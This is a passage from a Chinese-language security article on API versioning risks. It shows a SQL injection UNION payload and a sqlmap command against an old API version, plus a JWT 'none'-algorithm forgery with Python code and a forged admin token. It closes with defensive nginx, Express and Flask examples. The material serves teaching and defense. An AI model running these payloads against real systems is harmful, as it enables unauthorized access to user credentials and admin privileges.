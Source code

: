2. 利用旧版本注入：
```http
GET /api/v1/users?id=1'%20UNION%20SELECT%201,username,password%20FROM%20users-- HTTP/1.1
Host: api.test
```

3. 自动化攻击：
```bash
sqlmap -u "https://api.test/v1/users?id=1" --batch --dbs
```

### 4.2 JWT算法降级攻击
1. 原始JWT：
```text
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.EkN-DOsW...
```

2. 强制使用None算法：
```python
import jwt

payload = {"sub": "1234567890", "name": "John Doe", "admin": True}
token = jwt.encode(payload, key="", algorithm="none")
print(token)
```

3. 通过版本降级提交：
```http
POST /api/v1/auth HTTP/1.1
Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.
```

## 五、防御方案与最佳实践

1. 强制版本声明策略：
```nginx
location /api {
  if ($arg_version !~* "^v[0-9]+$") {
    return 400;
  }
}
```

2. 安全弃用策略示例：
```javascript
app.use('/api/v1/*', (req, res, next) => {
  res.set('Deprecation', 'true');
  res.set('Sunset', 'Wed, 31 Dec 2025 23:59:59 GMT');
  next();
});
```

3. 动态路由白名单控制：
```python
ALLOWED_VERSIONS = {'v3', 'v4'}

@app.route('/api/<version>/users')
def get_users(version):
    if version not in ALLOWED_VERSIONS:
        abort(410)
```

本文详细剖析了API版本控制风险的核心攻击技术，涵盖从基本原理到高级实战的完整知识体系。防御的关键在于严格版本生命周期管理、输入验证的版本关联性以及全面的监控审计机制。建议结合OWASP API Security Top 10进行纵深防御体系建设。

---

*文档生成时间: 2025-03-13 11:16:33*
